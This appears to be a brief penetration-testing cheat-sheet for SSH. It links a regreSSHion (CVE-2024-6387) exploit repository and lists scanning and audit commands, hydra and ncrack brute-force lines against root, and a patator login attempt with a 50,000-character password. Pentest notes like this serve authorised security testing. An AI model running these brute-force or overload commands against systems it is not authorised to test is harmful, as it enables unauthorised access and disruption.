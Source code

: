 # SSH

## CVE exploits
regreSSHion (CVE-2024-6387)
https://github.com/xonoxitron/regreSSHion?tab=readme-ov-file


```sh
# misconfiguration and audit
git clone https://github.com/jtesta/ssh-audit.git
cd ssh-audit
./ssh-audit.py <ip/domain>

# nmap
nmap -sV -p 22 <ip>

# Shodan.io 

## brute creds TEST
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<ip>
ncrack -u root -P pass.txt ssh://192.168.0.10

# https://github.com/lanjelot/patator
patator ssh_login host=10.0.0.1 user=FILE0 0=logins.txt password=$(perl -e "print 'A'x50000") --max-retries 0 --timeout 10 -x ignore:time=0-3